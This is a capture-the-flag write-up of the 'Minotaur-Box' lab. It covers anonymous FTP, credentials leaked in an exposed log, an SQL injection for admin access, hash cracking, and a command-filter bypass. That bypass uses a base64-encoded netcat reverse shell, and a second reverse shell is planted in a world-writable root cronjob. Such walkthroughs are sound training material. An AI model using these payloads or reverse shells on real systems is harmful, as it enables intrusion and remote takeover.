 # Writeup Minotaur-Box

## Nmap scan

```
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   3 nobody   nogroup      4096 Jun 15 14:57 pub
80/tcp   open  http     Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
443/tcp  open  ssl/http Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
| ssl-cert: Subject: commonName=localhost/organizationName=Apache Friends/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2004-10-01T09:10:30
|_Not valid after:  2010-09-30T09:10:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

## FTP Server
you see you can login into ftp anonymously

you see these files -> download them 

```
drwxr-xr-x   2 root     root         4096 Jun 15 19:49 .secret
-rw-r--r--   1 root     root          141 Jun 15 14:57 message.txt
```

if you cd to .secret you get the flag and a note with a hint for the future

```
└─# cat keep_in_mind.txt 
Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur
```

## Web Server
lets focus on the web server now:
doing a quick dir-scan shows that the /logs dir is exposed to the public
you can find a post request log at http://[Machine_IP]/logs/post/post_log.log
where you can find a valid password and user name to login with
email=Daedalus&password=g2e55kh4ck5r

you get presented with an api interface where you can query for user data:
lets try quering for our user Daedalus
you will get back the name and hashed password of him
if you look at inspect element theres a hint hidden it tells you something about permissions ....
 <!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin -->

if you look at the structure of the paramenters you see at the naming pattern (namePeoplenameCreature) there may be a parameter called permissionPeople
so lets try out an sql-injection with this information
``` Daedalus' OR permissionPeople='admin ```

you get this result gives you a new user: 5    M!n0taur    1765db9457f496a39859209ee81fbda4
you can either crack this hash (rockyou list), or you can use a website like crackstation
now login with the new userinformation you got
user: M!n0taur password: aminotauro
and a link to an pannel called "secret echo pannel"
there you can echo some your input out witch internally executes the echo command but you somhow have to bypass the filters and gain RCE
when you find out `` is permitted and you execute commands with it (you have to execute them seperatly at ';' because this char is filterd )
the best way to bypass the filter is just with a base64 encoded reverse shell payload
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4243 >/tmp/f ```
to this

```cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgWU9VUl9JUCA0MjQzID4vdG1wL2Y=```

since the equals sign is also filterd you will have to remove it witch leaves you with this payload
```echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgWU9VUl9JUCA0MjQzID4vdG1wL2Y" | base64 -d | bash```
then you get access to to machine and find the user flag located in /home/user/

## Machine 
you see theres cronjob running on a file owend by root(location: /timer/timer.sh) but wrteable by everyone
add your reverse shell (use a different port this time)
```rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4243 >/tmp/f```
the location of the root flag is in the root folder



